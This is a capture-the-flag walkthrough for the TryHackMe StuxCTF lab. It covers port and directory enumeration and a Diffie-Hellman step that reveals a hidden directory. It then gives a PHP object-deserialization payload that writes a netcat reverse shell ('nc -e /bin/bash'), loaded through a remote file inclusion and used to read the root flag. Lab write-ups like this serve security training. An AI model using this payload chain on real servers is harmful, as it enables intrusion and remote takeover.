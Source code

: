 # [StuxCTF](https://tryhackme.com/room/stuxctf)

## Crypto, serealization, priv scalation and more ...

# StuxCTF

## Read user.txt and root.txt

### What is the hidden directory

1. Start by nmap, and gobuster enumeration

```Bash
nmap -p- <IP>
```

- `-p-`: Allow us to scan all 65535 TCP ports

![SCREEN01](https://github.com/user-attachments/assets/2c93ad6d-5704-4759-9c83-a016f3daf596)

```Bash
gobuster dir -u http://<IP> -w /root/Tools/wordlists/dirbuster/directory-list-1.0.txt -x html,php,js,txt
```

- `-u`: Specifies the URL to scan
- `-w`: Specifies the wordlist file used for brute-forcing
- `-x`: Append extensions to each word in the wordlist when searching

![SCREEN02](https://github.com/user-attachments/assets/a4ffb12e-41b3-4bed-9a2c-ec2e24b002fb)

2. We don't have access to the `/.php` and `/.html`. `robots.txt` doesn't have anything interesting, but we have another clue in source of `/index.html`

![SCREEN03](https://github.com/user-attachments/assets/9563170a-6e12-4fb8-82ab-4566ff3717e3)

3. Let's solve this Diffie-Hellman problem in Python to find the secret directory

```Python
p = 9975298661930085086019708402870402191114171745913160469454315876556947370642799226714405016920875594030192024506376929926694545081888689821796050434591251
g = 7
a = 330
b = 450
gc = 6091917800833598741530924081762225477418277010142022622731688158297759621329407070985497917078988781448889947074350694220209769840915705739528359582454617

gca = (gc**a) % p
gcab = (gca**b) % p

print str(gcab)[:128]
```

![SCREEN04](https://github.com/user-attachments/assets/94a52092-01f8-4bab-899d-bf139101cc4c)

### user.txt

### root.txt

1. In source of the secret directory we get another hint

![SCREEN05](https://github.com/user-attachments/assets/3de88eca-bae5-4918-a508-85f3b9824f84)

2. When adding `/?file= ` at the end of the secret directory we are getting `File no Exist!` message

![SCREEN06](https://github.com/user-attachments/assets/d7ce6199-8d03-4bc2-a7d5-efdfd72b8567)

3. I have found out that only `index.php` returns something useful

![SCREEN07](https://github.com/user-attachments/assets/c8159ff5-e8d9-491e-a783-b3e0356dd4f2)

4. Let's put it in the [CyberChef](<https://gchq.github.io/CyberChef/#recipe=From_Hex('Auto')Reverse('Character')From_Base64('A-Za-z0-9%2B/%3D',true,false)>) and select `From Hex` -> `Reverse` -> `From Base64`. This is our encrypted `index.php`

5. Prepare reverse shell in php and cast it to the .txt file

```php
<?php
class file
{
 public $file = 'shell.php';
 public $data = '<?php shell_exec("nc -e /bin/bash <IP> 4444"); ?>';
}

echo (serialize(new file));

?>
```

```Bash
php shell.php > shell.txt

```

6. Start python server and netcat listener

```Bash
python -m SimpleHTTPServer 9000
```

```Bash
nc -lvnp 4444
```

7. Upload our txt file using `/?file=http://<IP>:9000/shell.txt` and go to the `/<SECRET_DIRECTORY>/shell.php` endpoint. When we get a connection we can get all the flags

```Bash
whoami
sudo -l
cat /home/grecia/user.txt
sudo cat /root/root.txt
```

![SCREEN08](https://github.com/user-attachments/assets/5b9e5bcd-a10d-4e56-8c60-e347aa53bfa6)
